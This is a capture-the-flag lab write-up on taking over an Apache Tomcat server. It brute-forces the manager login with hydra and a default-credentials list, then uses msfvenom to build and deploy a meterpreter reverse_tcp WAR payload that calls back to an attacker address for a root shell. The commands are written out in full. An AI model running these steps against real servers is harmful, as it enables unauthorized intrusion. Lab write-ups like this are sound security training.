 ### What I Learned

1. Use hydra for web logins on popup windows
2. Always check for executable files within a single upload folder
3. Know the difference between staged and unstaged payloads in meterpreter

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan the machine and find a webpage open and find an Apache Tomcat Page. Use default credentials to login. Look through the different managers and dashboards on the home page and find a page that allows for upload of WAR files. Generated a WAR file payload in the .jsp format. Upload it, unzip it, and navigate to the file into the server to get a reverse shell with root privileges.
</details>
<br>

## Writeup

Scan the machine

Nmap scan the machine and check directories with gobuster.

Find port 8080 open, navigate and find a default installation of Apache Tomcat. Start clicking around to different managers and dashboards on the home page.

![alt text](images/image.png)

Find Status, Manager App, and Host Manager
For http forms, use http-get or http-post, depending on the API call on the page

- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.129.107.192:8080/manager/html`

Try default working credentials and get working credential
`tomcat:s3cret`

Login and find a file upload option in the machines
Look at the examples of the uploaded WAR files

- WAR files are java packages
- In this instance, the files are of the format ".jsp"

Search for a meterpreter shell

- `msfvenom -l payloads | grep 'meterpreter\|windows\|x64'`
- `msfvenom -l payloads | grep 'windows/x64/meterpreter'`

Generate the payload in a war format

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.209 LPORT=8686 -f war-o payload.war`

  Staged vs Unstaged

  - Meterpreter_reverse_tcp
  - Meterpreter/reverse_tcp

Open Meterpreter and use the meterpreter listener on multi/handler

- `set LPORT 8686`
- `set LHOST tun0`

Upload the war file using the Browse/Deploy window
Run the War file, but it doesn't work.

![alt text](images/image-1.png)

- unzip the file, check for the jsp file inside the war file, copy its name, and paste it into the filepath on the server

You have root privileges
